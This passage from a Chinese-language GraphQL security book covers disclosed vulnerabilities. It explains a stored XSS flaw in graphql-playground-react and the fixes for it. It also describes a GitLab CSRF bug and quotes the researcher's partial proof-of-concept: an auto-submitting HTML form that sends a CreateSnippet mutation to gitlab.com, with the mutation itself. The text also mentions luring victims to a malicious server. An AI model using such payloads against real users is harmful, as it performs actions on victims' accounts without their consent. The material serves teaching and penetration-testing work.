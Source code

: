 图 10-6：在搜索中显示的恶意类型名称

当客户端打开 GraphQL Playground 查询 API 时，恶意的 JavaScript 负载将在他们的浏览器中渲染，在这种情况下，它会被注入到一个类型的名称中。

这个具体的漏洞存在于 Playground Node 包管理器（npm）包 *graphql-playground-react* 中。在 2021 年底，库的维护者采取了以下措施来修复这个漏洞：

+   确保所有 HTML 文本都被转义

+   确保类型名称符合 GraphQL 规范

+   如果文档部分包含危险字符，则避免加载该部分

+   确保用户生成的 HTML 被检查并变得安全

GraphQL IDEs 很流行，因此，如果你正在进行渗透测试并发现了旧版本的 GraphQL Playground，有可能它没有被修补，仍然容易受到这个 XSS 攻击。或者，你可以托管一个包含漏洞的 Playground 库的恶意 GraphQL 服务器，并诱使受害者访问它。

## 跨站请求伪造（GitLab）

在本书早些时候，我们介绍了如何识别允许基于 GET 的 GraphQL 查询的 API。现在，让我们看看黑客是如何滥用这个功能的。2021 年 3 月，黑客 az3z3l 向 GitLab 披露了一个 CSRF 漏洞（[`hackerone.com/reports/1122408`](https://hackerone.com/reports/1122408)）。

在通过 POST 方法处理 GraphQL 查询时，GitLab 使用了一个特殊的 `X-CSRF-Token` HTTP 头部来防止 CSRF 攻击。这个头部在每个请求或查询中包含一个唯一的令牌。

GET 请求通常不用于数据修改等操作，因此公司通常不会使用反 CSRF 令牌来保护它们。但由于 GitLab 支持使用 GET 查询，因此现有的 CSRF 保护机制没有应用于这些查询，尽管这些操作包括查询和 mutation，并且能够通过 API 执行更改。

道德黑客 az3z3l 提供了一个概念验证的 HTML 代码，利用了 CSRF 漏洞：

```
`--snip--`
<form action="https://gitlab.com/api/graphql/" id="csrf-form" method="GET"> ❶
<input name= ❷ "query" value="mutation CreateSnippet($input: CreateSnippetInput!) `--snip--`">
<input name= ❸ "variables" value='{"input":{"title":"Tesssst Snippet"} `--snip--`'>
</form>
`--snip--`
<script>document.getElementById("csrf-form").submit()</script> ❹
```

这段 HTML 代码定义了一个提交表单 ❶，其中包含两个输入项：`query` ❷，指定使用名为 `CreateSnippet` 的 mutation，和 `variables` ❸，其中包含通过输入类型传递的一些变量。代码在 ❹ 处使用 JavaScript 来代客户端提交表单，只要客户端加载包含该 HTML 页面的页面时。由于 API 没有检查 CSRF 保护头，因此这种操作是可能的。

漏洞利用中使用的 GraphQL mutation 如下：

```
mutation CreateSnippet($input: CreateSnippetInput!) {
  createSnippet(input: $input) {
    errors
    snippet {
      webUrl
      __typename
    }
 `--snip--`
  }
}
```

由于这个查询，客户端将以攻击者在 HTML 表单中包含的数据创建一个代码片段。这个 CSRF 漏洞可能让攻击者代表受害者执行敏感操作，比如访问他们的账户或数据。

## 总结

本章介绍了现实世界中漏洞和漏洞利用的公开披露。你了解了 GraphQL 实现中的某些设计选择如何造成漏洞，导致信息泄露、注入、授权问题等。我们还讨论了一些公司采取的缓解措施，以修补这些漏洞（如果可能的话）。

本书介绍了 GraphQL 查询 API 的新方法。正如你所学到的，这个框架有其独特的规则、优点和缺点。GraphQL 的设计引入了新的漏洞和安全挑战。与此同时，它仍然容易受到多年来存在的经典漏洞的影响。现在你已经知道如何在 GraphQL 中查找漏洞，我们建议你尝试在通过漏洞披露程序发布的 GraphQL 应用程序中寻找漏洞。谁知道呢，或许你还能赚上一两笔。
